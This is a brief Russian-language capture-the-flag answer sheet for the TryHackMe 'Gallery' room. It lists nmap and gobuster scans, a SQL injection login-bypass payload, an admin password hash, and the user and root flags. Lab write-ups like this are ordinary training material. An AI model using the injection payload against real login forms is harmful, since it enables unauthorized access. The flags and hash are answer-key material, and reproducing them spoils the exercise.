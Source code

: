 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Gallery]() 

Всего 2 задания:
## Задание 1
Наша галерея не очень хорошо охраняется.

Разработано и создано  Микаа  !

### Ответьте на вопросы ниже
Сколько портов открыто?
```commandline
nmap -sC -sV <IP>
```
```commandline
2
```
Как называется CMS?
```commandline
gobuster dir -u <IP> -w /opt/medium.txt
http://<IP>/gallery/login.php
```
```commandline
Simple Image Gallery
```
Какой хеш-пароль у пользователя admin?
```commandline
'or 1=1 -- -
```
```commandline
a228b12a08b6527e7978cbe5d914531c
```
Что такое флаг пользователя?
```commandline
THM{af05cd30bfed67849befd546ef}
```

## Задание 2
Удачи на последнем этапе!
### Ответьте на вопросы ниже
Что такое корневой флаг?
```commandline
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)